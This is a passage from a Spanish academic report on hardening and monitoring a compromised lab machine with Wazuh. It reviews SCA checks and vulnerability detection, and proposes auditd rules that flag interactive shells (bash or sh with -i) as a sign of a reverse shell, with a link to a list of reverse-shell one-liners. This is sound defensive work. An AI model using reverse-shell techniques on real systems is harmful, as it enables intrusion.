  
\includegraphics[width=\textwidth]{imagenes/install_wazuh1.png}
  
\includegraphics[width=\textwidth]{imagenes/install_wazuh2.png}
  \caption{En esta captura se aprecia como se ha añadido un agente al manager. En la interfaz web de Wazuh se selecciona la opción para añadir un nuevo agente centos y se nos ofrece un comando que contiene variables de entorno para \textbf{registrar el agente en el manager} durante la instalación. Esos comandos se han ejecutado en la máquina `Presidential' para tener al agente fácilmente instalado y con la configuración básica.}
   \label{install_wazuh}
\end{figure}

Para finalizar el estudio del caso de uso práctico se van a aprovechar los permisos de administración conseguidos recientemente para \textbf{instalar un agente de Wazuh en el sistema} y conectarlo al manager instalado en la máquina Kali Linux. Para ello, se segirá el proceso descrito en la figura \ref{install_wazuh}

A continuación, se analizarán aquellas amenazas y malas prácticas que Wazuh es capaz de detectar \textbf{con la configuración por defecto} y se propondrán algunos cambios o mejoras para aumentar el alcance de la herramienta.


\subsection{Módulo de SCA: Security configuration assessment}

Uno de los primeros módulos de Wazuh a tener en cuenta al instalar un agente de Wazuh en nuestro sistema es el de Security Configuration Assement (o SCA), es un módulo que ejecuta una batería de tests en el sistema y determina si cumple con algunas buenas practicas de seguridad que se recomienda tener en nuestros sistemas.


\begin{figure}[!hbt]
  \centering
  
\includegraphics[width=\textwidth]{imagenes/sca.png}
  \caption{En esta captura se aprecia como se ha añadido un agente al manager. En la interfaz web de Wazuh se selecciona la opción para añadir un nuevo agente centos y se nos ofrece un comando que contiene variables de entorno para \textbf{registrar el agente en el manager} durante la instalación. Esos comandos se han ejecutado en la máquina presidential para tener al agente fácilmente instalado y con la configuración básica.}
   \label{sca}
\end{figure}

En el caso de la imagen utilizada para este caso de estudio, en el momento de instalar Wazuh, tan solo se cumple un 39\% de las recomendaciones (ver Figura \ref{sca}).

En este apartado discutiremos solo algunos de los checks que han resultado fallidos y que \textbf{de haber sido tenidos en cuenta podrían haber evitado el ataque que se ha realizado}.


\begin{figure}[!hbt]
  \centering
  
\includegraphics[width=\textwidth]{imagenes/sca_check1.png}
  \caption{En la imagen se muestra, a modo de ejemplo, el contenido de uno del os checks de SCA. Indicando por qué ha fallado y qué se recomienda hacer al respecto.}
   \label{sca_check1}
\end{figure}

El check 6049, por ejemplo, (`Ensure updates, patches and additional security software are installed'), ver Figura \ref{sca_check1}, ha resultado fallido porque el sistema está desactualizado. Si bien es cierto que este check en concreto a veces puede ser difícil de cumplir (puesto que surgen parches y actualizaciones constantemente y en entornos de producción no siempre se puede estar actualizando), haberlo tenido en cuenta podría haber derivado en una actualización del módulo de phpmyadmin vulnerable.

Además de este, múltiples checks recomienda instalar y configurar audit para \textbf{que queden registrados los intentos fallidos de lectura de archivos, o de login}, de forma que cualquier error cometido durante el test de penetración \textbf{hubiera quedado logeado por audit y analizado por Wazuh}.

\begin{figure}[!hbt]
  \centering
  
\includegraphics[width=\textwidth]{imagenes/sca_check2.png}
  \caption{En la imagen se muestra un check de SCA que invita a \textbf{restringir el uso del comando su}. Dado que nosotros hemos utilizado el comando para pasar del usuario php obtenido con el shell reverso al usuario admin, si este check se hubiera tenido en cuenta \textbf{el ataque no hubiera sido posible.}}
   \label{sca_check2}
\end{figure}

Por último, mencionar el check de la Figura \ref{sca_check2}, que de haberse cumplido, nos hubiera impedido conseguir un shell con el usuario admin \textbf{aún habiendo conseguido el shell reverso}.

\subsection{Detección de vulnerabilidades}

\begin{figure}[!hbt]
  \centering
  
\includegraphics[width=\textwidth]{imagenes/vulnerabilities.png}
  \caption{En la imagen se muestran unos gráficos generados por Wazuh a partir de las vulnerabilidades detectadas en la máquina a analizar.}
   \label{vulnerabilities}
\end{figure}

Otro módulo importante de Wazuh que interesa revisar desde el principio es el de \textbf{detección de vulnerabilidades}, que permite analizar las versiones del software instalado en los servidores con agentes y nos alerta si detecta alguna vulnerabilidad cotejando con bases de datos de las mismas disponibles en internet.

Hay que señalar que este módulo \textbf{no viene activado por defecto} en el Manager de Wazuh (aunque los agentes si que envían sus datos sobre programas instalados, por defecto). Para este estudio se ha activado el módulo de detección de vulnerabilidades y se ha comprobado si este es capaz de detectar la vulnerabilidad explotada.

El análisis da como resultados 83 vulnerabilidades graves, 582 medias y 212 de baja importancia. Sin embargo, realizamos una búsqueda de vulnerabilidades relacionadas con phpmyadmin, la vulnerabilidad que se ha explotado en el estudio no aparece listada. Tras una breve investigación se ha concluido a que se debe de \textbf{una instalación manual} (sin utilizar el gestor de paquetes del sistema operativo) y, por tanto, Wazuh no ha sido capaz de detectar que ese software se encuentra instalado.

Este es un detalle importante: demuestra que aunque herramientas como Wazuh nos informan de vulnerabilidades utilizando \textbf{información de los paquetes instalados por el gestor del sistema}, algunas de estas vulnerabilidades pueden pasar por alto cuando \textbf{se instala software manualmente}, por ejemplo, a partir del código fuente o utilizando un archivo comprimido con los ejecutables en lugar de un paquete oficial. 

Este tipo de situaciones demuestran la \textbf{importancia de tests de penetración} y el hecho de que Wazuh pudiera registrar el comando de nmap que detectara la vulnerabilidad y \textbf{alertar de ella} sería de vital importancia para cualquier auditoría de seguridad.

\subsection{Detección de shell reverso usando Wazuh}

Por defecto, Wazuh no ofrece ninguna herramienta que hubiera permitido detectar la ejecución de un shell reverso, pero si que ofrece multitud de módulos que, configurados de la forma correcta, podrían hacerlo. 

En este apartado se va a comentar una forma sencilla de \textbf{detectar la ejecución de shells reversos usando Wazuh} como una muestra de \textbf{el valor que se podría ofrecer durante una auditoría de seguridad a un cliente que utilice Wazuh}. En primer lugar, llegados a este punto, un experto en seguridad podría notificar no solo que existe una vulnerabilidad en el sistema sino que esta no ha sido detectada por ser un paquete instalado manualmente y la explotación de la misma tampoco ha sido registrada.

Para ello, \textbf{habilitaremos el módulo de Wazuh para monitorización de llamadas al sistema} (que hace uso del comando audit). En este caso habilitaremos una regla para registrar y analizar todos los comandos ejecutados en el sistema (por los distintos usuarios) y crearemos unas \textbf{reglas específicas para detectar comandos típicos ejecutados para obtener shell reversas}, por ejemplo, los listados en la web \url{HTTPs://oscp.infosecsanyam.in/shells/linux-reverse-shell-one-liner}.

La configuración que se recomienda consiste en \textbf{instalar auditd y activar la monitorización de sus logs}. Wazuh cuenta con reglas y decoders por defecto que nos permitirán, con una regla sencilla de audit, monitorizar todos los comandos ejecutados como una llamada al sistema. 

Para detectar posibles intentos de ejecución de shell inversos se puede crear una alerta en Wazuh que \textbf{notifique cuando se ejecute un shell con la opción de ``interactividad'} (flag $-i$ en bash y sh). 


\begin{figure}[!hbt]
  \centering
    
\includegraphics[width=\textwidth]{imagenes/kibana-root-comands.png}

